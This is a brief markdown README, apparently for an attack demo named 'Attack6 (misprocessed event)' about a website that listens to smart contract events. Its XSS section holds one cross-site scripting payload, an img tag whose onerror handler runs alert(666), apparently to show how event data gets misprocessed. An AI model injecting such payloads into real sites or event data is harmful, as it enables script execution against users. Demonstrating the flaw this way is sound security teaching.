 

# Attack6 (misprocessed event)

Demo Website: Listen the smart contract events.
## 1. Deploy a contract [Done]

## 2. Listen to the contract [Done]

## 3. XSS

<img src=x onerror=alert(666)>